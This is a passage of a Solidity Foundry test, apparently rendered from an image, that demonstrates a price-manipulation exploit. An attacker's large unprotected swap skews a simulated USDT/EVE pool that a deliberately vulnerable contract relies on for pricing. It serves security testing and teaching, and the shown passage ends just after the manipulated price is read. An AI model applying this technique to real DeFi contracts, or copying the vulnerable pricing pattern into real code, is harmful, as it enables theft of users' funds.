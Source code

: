 ```solidity
            address(eve_token),
            initialUSDT,
            initialEVE
        );

        // Deploy vulnerable contract that interacts with our simulated router
        vulnerable = new VulnerableContract(address(router), address(usdt_token), address(eve_token));

        // Approvals for the test contract to simulate user actions (using cheat codes)
        // In a real test, we would simulate this by using vm.prank or similar techniques.
        // For simplicity, we assume user and attacker have approved the vulnerable contract.
        vm.prank(user);
        usdt_token.approve(address(vulnerable), type(uint256).max);
        vm.prank(user);
        eve_token.approve(address(vulnerable), type(uint256).max);

        vm.prank(attacker);
        usdt_token.approve(address(router), type(uint256).max);
    }

    // Test function to demonstrate the vulnerability.
    // Note: balanceLog modifier logs ETH balances on function call.
    function testExploit() public balanceLog {
        // Ensure this test contract has enough ETH for operations
        vm.deal(address(this), 10 ether);

        // Step 1: Demonstrate normal behavior:
        //    - Get token price from the liquidity pool.
        uint256 initialPrice = vulnerable.getPrice();
        emit log_named_uint("Initial Price (USDT per EVE) * 1e18", initialPrice);

        //    - User performs a token swap with the vulnerable contract.
        uint256 swapAmount = 1_000 * 1e18;
        // Simulate caller as 'user'
        vm.prank(user);
        uint256 tokensReceived = vulnerable.swapUSDTForTokens(swapAmount);
        emit log_named_uint("Tokens received from swap (normal)", tokensReceived);

        //    - User adds liquidity via the vulnerable contract.
        uint256 addUSDT = 500 * 1e18;
        uint256 addEVE = 250 * 1e18;
        vm.prank(user);
        uint256 liquidityAdded = vulnerable.addLiquidity(addUSDT, addEVE);
        emit log_named_uint("Liquidity added (normal)", liquidityAdded);

        // Step 2: Simulate attack:
        // Attacker performs a significant swap directly on the router to manipulate the pool price.
        // The attacker uses his own USDT tokens to heavily impact the USDT/EVE ratio.
        uint256 attackerSwapAmount = 50_000 * 1e18;
        vm.prank(attacker);
        uint256 attackerTokensReceived = router.swapExactTokensForTokens(
            attackerSwapAmount,
            0, // No slippage protection, allowing the manipulation
            address(usdt_token),
            address(eve_token),
            attacker
        );
        emit log_named_uint("Attacker tokens received from swap", attackerTokensReceived);

        // Check the manipulated price after the attacker's swap.
        uint256 manipulatedPrice = vulnerable.getPrice();
```